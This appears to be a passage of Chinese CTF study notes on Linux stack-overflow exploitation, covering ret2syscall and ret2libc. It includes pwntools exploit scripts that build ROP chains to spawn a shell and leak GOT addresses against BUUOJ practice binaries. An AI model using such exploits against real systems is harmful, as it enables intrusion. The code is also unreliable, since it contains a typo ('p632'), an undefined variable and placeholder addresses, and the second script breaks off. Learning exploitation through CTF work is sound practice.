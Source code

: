 ```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#p = remote('node.buuoj.cn',8888)
p = process('./pwn')
elf = ELF('./pwn')
pop_eax = 0x12345678
pop_edx_ecx_ebx = 0x12345678
int_80 = 0x12345678
#bin_sh = 0x12345678 当ELF中存在，可直接调用

payload = flat(cyclic(60),p32(pop_eax),p32(0xb),p32(pop_edx_ecx_ebx),p632(0),p32(0),p32(sh_addr),p32(int_80))
p.sendline(payload)
p.interactive()
```

#### 64位

64位程序利用syscall来进行系统调用read函数写入"/bin/sh"，也可以直接使用已有的read函数

利用execve系统函数进行调用，设置rax=0x3b

```python

```

## ret2libc

### 原理

利用栈溢出漏洞，劫持返回地址，利用程序已链接库中的函数，来进行取shell不需要注入自定义的 shellcode 或者系统调用指令。需要了解libc和延迟绑定，了解ELF执行后，第一次调用函数，会实现一个延迟绑定当函数没system和"/bin/sh"时，就需要调用libc里面的，首先**找到libc的基地址**，通过已知函数的地址，输出在libc中的地址，来计算基地址

```shell
#需要Libcsearcher库
git clone https://github.com/lieanu/LibcSearcher.git
sudo python set-up.py develop
rm -rf Libc-database
git clone https://github.com/niklasb/libc-database.git
./get ubuntu debain
```



### 32位

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',29779)
#p=process('./2018_rop')
elf=ELF('./2018_rop')

main=elf.sym['main']
write_plt=elf.plt['write']
write_got=elf.got['write']

payload1=flat(cyclic(0x8c),p32(write_plt),p32(main),p32(1),p32(write_got),p32(4))
p.sendline(payload1)
write_addr=u32(p.recv(4))
print(hex(write_addr))

libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system_addr=base+libc.dump('system')
```
